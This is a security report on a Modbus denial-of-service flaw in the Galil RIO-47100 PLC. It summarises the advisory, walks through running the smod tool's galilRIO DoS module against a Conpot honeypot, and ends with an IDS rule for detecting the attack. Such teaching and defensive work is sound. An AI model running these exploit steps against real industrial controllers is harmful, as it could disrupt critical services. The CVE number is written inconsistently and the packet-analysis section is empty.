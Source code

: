 # Overview
In this report, we will focus on modbus, the most widely used SCADA/ICS protocol. We will use Honeypot as the target. 
This Report provides: 

- Mitigation details for a vulnerability affecting the Galil RIO-47100 “Pocket PLC.”
- Disclosure of exploit runs on ModBus protocol.  
- Simulating an attack scenario against Scada Honeypot (Conpot) 
- Modbus attack diagnostic functions in Wireshark
- Writing IDS rules to detect attack


Researcher Jon Christmas of Solera Networks has identified an improper validation vulnerability in the Galil RIO-47100 PLC, which can result in a loss of availability. Galil has produced an update that mitigates this vulnerability. The researcher has tested this update and validates that it resolves the vulnerability. This vulnerability could be exploited remotely.

---


# Vulnerability Overview

#### Improper Input Validation
The Galil RIO-47100 PLC allows repeated requests to be sent in a single session. By using these repeated requests sent in a single session, an attacker can cause a denial of service of the system.
CVE-2013-06992 has been assigned to this vulnerability. A CVSS v2 base score of 7.1 has been
assigned. This exploit sends multiple function code (read a coil repeated in a single packet) to break the machine.
#### Vulnerability Details 
The Rio-47100 by Galil is a small PLC with an internal RISC based
processor. It communicates using ModBus, or Telnet over Ethernet as well as
having a web server built in that allows a user to issue commands.

##### _Explotability_
This vulnerability could be exploited remotely.
##### _Existence of Exploit_
Known public exploits specifically target this vulnerability.
##### _Difficulty_
An attacker with a medium skill would be able to exploit this vulnerability.

## Affected Produtcs 
The following Galil product is affected:
- Hardware : RIO-47100 PLC by Galil.
- Version : Rio Firmware Prior to 1.1d
- Vendor : [`www.galilmc.com`](www.galilmc.com)

## Impact
Successful exploitation of this vulnerability could allow an attacker to affect the availability for the Galil RIO-47100 PLC. This vulnerabilities other potential disastrous impacts of DoS attacks against SCADA/ICS systems include electrical blackouts, shutdown of water and sewage systems and other essential municipal services.
Impact to individual organizations depends on many factors that are unique to each organization.
## Background
Galil is a US-based company that maintains offices in Rocklin, California. Galil produces motion control products that are distributed globally.
The affected product, RIO-47100 PLC, is a compact PLC system that includes I/O. According to Galil, RIO-47100 PLC is deployed across several sectors including energy, defense industrial base, and agriculture and food. Galil estimates that these products are used primarily in the United States and Europe with a small percentage in Asia.


---
# Exploitation of Vulnerability 
We are going to exploit [CVE-2013-0699](https://nvd.nist.gov/vuln/detail/CVE-2013-0699#match-3087197) in this spesific example. As we mentioned before, with this exploit; attacker can cause a denial of service of the system. 

In order to exploit the vulnerability we need to download [Smod](https://github.com/Joshua1909/smod)
After downloading smod we can run it by typing;
```
cd smod
python smod.py
```

<p align="center">
  <img width="750" height="400" src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/1.1.png">
</p>
We can see the ModBus Frameworks' modules by typing;

```
show modules
```
<p align="center">
  <img width="750" height="400" src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/1.2.png">
</p>

```
use /modbus/dos/galilRIO
show options
```
We have checked which parameters our exploit needs to run. This exploit needs; 
`RHOST` = remote host ip address,
`UID` = Unit id,
paramateres.
```
set RHOST <ip>
set UID <uid>
```

After giving the parameters which are wanted we are ready to run it. 
```
exploit
```
<p align="center">
  <img width="750" height="400" src="https://github.com/ics-scada/Reports/blob/main/Modbus/Screenshots/1.5.png">
</p>

As you can see above, dos attack has started.

---

# Packet Analysing


---
# Rules
```
alert tcp any any -> $HOME_NET 502 (
msg:"Inproper input Validation -Dos Attack-";
flow:to_server,established;
reference:cve,2013-0699;
classtype: denial-of-service;
sid:141231232;
pcre:"/([\x00-\xff])([\x00-\xff])(\x00)(\x00)(\x00)(\x06)([\x00-\xff])(\x01)(\x00)(\x00)(\x00)(\x01)/";
detection_filter:track by_dst, count 10, seconds 1;)
```
